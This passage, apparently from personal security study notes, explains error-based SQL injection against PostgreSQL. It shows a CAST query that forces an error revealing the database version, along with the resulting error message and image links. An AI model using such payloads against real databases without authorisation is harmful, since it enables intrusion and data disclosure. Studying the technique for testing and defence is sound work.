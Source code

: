   * ![image-20210218080813402](images/image-20210218080813402.png)





* ### PostgreSQL Error-based SQL Injection

  * For this, need to use same **CAST Technique as same as like MSSQL**

  * To extract DB Version

    * ```
      # select cast(version() as numeric);
      
      Result =>
      
      ERROR: invalid input syntax for type numeric: "PostgreSQL 9.1.15
      on x86_64-unknown-linux-gnu, compiled by gcc (Debian 4.7.2-5)
      4.7.2, 64-bit"
      ```

  * ![image-20210218081143167](images/image-20210218081143167.png)
